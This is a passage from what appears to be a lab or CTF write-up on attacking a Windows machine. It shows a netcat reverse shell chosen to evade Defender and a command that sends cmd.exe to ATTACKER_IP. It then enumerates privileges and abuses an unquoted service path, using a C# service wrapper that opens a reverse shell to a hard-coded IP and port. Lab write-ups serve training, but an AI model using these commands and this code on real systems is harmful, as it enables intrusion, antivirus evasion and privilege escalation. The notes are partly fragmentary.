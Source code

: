 <figure><img src=".gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

Now to get a reverse shell, Defender will easily identify a powershell exploit and PHP reverse shells may be unstable, the easiest option is to upload netcat. Here also we need a version different to the norm so Defender can't catch it

{% embed url="https://github.com/int0x33/nc.exe/" %}

Use python server and you get a reverse shell.

`powershell.exe c:\windows\temp\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe`

Refer the above ss, use powershell to prevent shell from exiting early

**Windows Prives you can do w obfus .exe of WinPEAS but manual always imp**

`whoami /priv`\
`whoami /groups`

`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`

Returns non core processes, one of them has unquoted service path

`sc qc SystemExplorerHelpService`

`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`

Checking if we have write perms to the unquoted path and yes we do

Time to write a service&#x20;

```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-tripz.exe", "10.50.85.244 444 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```
